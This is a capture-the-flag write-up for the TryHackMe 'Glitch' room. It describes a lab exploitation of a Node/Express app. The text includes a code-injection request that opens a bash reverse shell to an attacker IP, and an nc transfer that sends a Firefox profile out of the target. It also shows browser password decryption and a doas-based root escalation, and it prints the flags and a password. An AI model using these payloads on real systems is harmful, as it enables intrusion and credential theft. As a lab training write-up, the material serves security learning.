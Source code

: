 # Room: Glitch

## General Info
- **Room link:** [Glitch](https://tryhackme.com/room/glitch)

## Description

This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Feedback is always appreciated.

## Provided Files / Links
- [x] Target Machine IP (10.10.51.179)


## Enumeration / Recon
- Ports Enumeration

Basic port enumeration:
`nmap -sV 10.10.51.179 -p- -T5`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When visiting the website, I notice the following script in the HTML:

```

      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    
```

I use Burp Suite to perform this request:

```
GET /api/access HTTP/1.1
Host: 10.10.51.179
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: token=value
If-None-Match: W/"2d4-9vv1ycPBiNQXrvbVqqN9dD9MWUM"
Connection: keep-alive
```

And I get the following response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 23 May 2025 08:15:51 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 36
Connection: keep-alive
X-Powered-By: Express
ETag: W/"24-8nMb1yUaJcnW8A0Wwa1z8teVcXo"

{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

The token is base64 encoded and the decoded version is `this_is_not_real`.

I then added the token value in the web application cookies. Now the page loads with elements added from the /api/items endpoint:

```
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

I check which HTTP methods are allowed on this endpoint:

```
curl -i -X OPTIONS http://10.10.162.38/api/items

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 23 May 2025 08:48:25 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: keep-alive
X-Powered-By: Express
Allow: GET,HEAD,POST
ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"

GET,HEAD,POST% 
```

When making a POST request (without a payload), I get this response:

```
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since I don't get much information about the api structure, I will try to fuzz parameters (I use the wordlist 1-4_all_letters_a-z.txt to test for all possible characters in a 4 letters parameter):

```
wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.162.38/api/items\?FUZZ\=1
```

And I get the following result:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================

000002370:   200        0 L      2 W        25 Ch       "cmd" 
```

Now I can exploit the cmd parameter to get a reverse shell (I use Burp Suite to create the connection):

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.9.1.194/1337+0>%261"') HTTP/1.1
Host: 10.10.162.38
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

I am in the target machine now and I stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I then find the flag in /home/user/user.txt: **THM{i_don't_know_why}**.

In the /home/user directory, I find a .firefox directory.

I then proceed to zip the folder (firefox.tar.gz) and send it to my machine:

```
nc 10.9.1.194 33456 < firefox.tar.gz (on target machine)
nc -nvlp 33456 > firefox.tar.gz (on my machine)
```
I find this github https://github.com/unode/firefox_decrypt to decrypt passwords.

```
python3 firefox_decrypt/firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
```

When selecting the second option, I get v0id's password:

```
Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```

I can now switch user and become v0id.

I then run the following command to find files with potentially insecure or incorrect SUID bits:

```
find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
```

And I find this file:

```
-rwsr-xr-x 1 root root 37952 Jan 15  2021 /usr/local/bin/doas
```

I then use the following doas exploit:

```
/usr/local/bin/doas -u root /bin/bash
```

And I am root. I find the root flag in /root/root.txt: **THM{diamonds_break_our_aching_minds}**
